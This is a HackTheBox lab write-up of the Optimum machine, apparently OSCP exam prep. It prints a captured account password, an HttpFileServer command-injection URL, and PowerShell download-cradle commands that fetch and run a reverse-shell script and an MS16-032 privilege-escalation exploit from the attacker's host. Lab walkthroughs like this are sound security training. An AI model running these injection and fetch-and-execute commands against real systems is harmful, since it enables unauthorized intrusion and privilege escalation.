

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Optimum/index.html · generator: mkdocs

# Optimum

10.10.10.8


Nmap discovers the only port open is port 80.

It's running HttpFileServer 2.3
![[Pasted image 20220713202221.png]]

Using EDB-39161 we are able to get a reverse shell as kostas.

Winpeas found kostas' password
![[Pasted image 20220713204437.png]]
```password
kdeEjDowkS*
```

Upgrade to a powershell shell so we can run sherlock:

```cmd.exe
powershell -c "IEX (new-object net.webclient).downloadstring('http://10.10.16.4:80/shell.ps1')"
```

Then we load and run sherlock. It looks like the system is vulnerable to MS16-032

Unfortunately our shell is running in a 32bit process, so we need to drop the shell and upgrade it by running powershell naitive:

```
http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe%20IEX%20(new-object%20net.webclient).downloadstring(%27http://10.10.16.4:80/shell.ps1%27)%22+.}
```

Now we're running a 64 bit process and can run the exploit:

```
IEX (new-object net.webclient).downloadstring('http://10.10.16.4:80/MS16-032.ps1')
```
